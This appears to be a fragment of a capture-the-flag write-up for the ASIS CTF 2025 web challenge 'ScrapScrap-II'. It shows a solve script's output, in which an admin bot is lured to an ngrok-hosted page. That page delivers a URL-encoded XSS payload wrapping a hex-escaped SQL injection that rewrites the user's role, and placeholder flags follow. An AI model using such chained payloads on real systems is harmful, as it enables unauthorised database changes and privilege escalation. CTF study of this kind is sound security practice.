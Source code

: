```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-II]-[2025/09/09|21:54:45(HKT)]
└> python3 solve.py
[*] Registering new user RPnlKfanxh with password "RPnlKfanxh"...
[*] Logging in as user RPnlKfanxh...
[*] User ID: 2 | Role: demo
[*] Starting our web server...
[*] Visiting URL for bot: http://localhost:3000/checker?url=http://0.tcp.ap.ngrok.io:19141/sleep%3Fpayload%3D%3C%3Ci%3Eimg%20src%20onerror%3D%22eval%28fetch%28%27/debug/create_log%27%2C%20%7B%20method%3A%20%27POST%27%2C%20body%3A%20new%20URLSearchParams%28%7B%20%27log%27%3A%20%27%5Cx27%5Cx29%5Cx3b%5Cx55%5Cx50%5Cx44%5Cx41%5Cx54%5Cx45%5Cx20%5Cx75%5Cx73%5Cx65%5Cx72%5Cx73%5Cx20%5Cx53%5Cx45%5Cx54%5Cx20%5Cx72%5Cx6f%5Cx6c%5Cx65%5Cx3d%5Cx22%5Cx75%5Cx73%5Cx65%5Cx72%5Cx22%5Cx20%5Cx57%5Cx48%5Cx45%5Cx52%5Cx45%5Cx20%5Cx69%5Cx64%5Cx3d%5Cx32%5Cx3b%5Cx53%5Cx45%5Cx4c%5Cx45%5Cx43%5Cx54%27%20%7D%29%7D%29%29%22%3C/i%3E%3E
[...]
[*] Logging out as user RPnlKfanxh...
[*] Logging in as user RPnlKfanxh...
[*] User ID: 2 | Role: user
[+] Flag 1: ASIS{FAKE_FLAG1}
[*] Logging out as user RPnlKfanxh...
[*] Logging in as user RPnlKfanxh...
[+] Flag 2: ASIS{FAKE_FLAG2}
```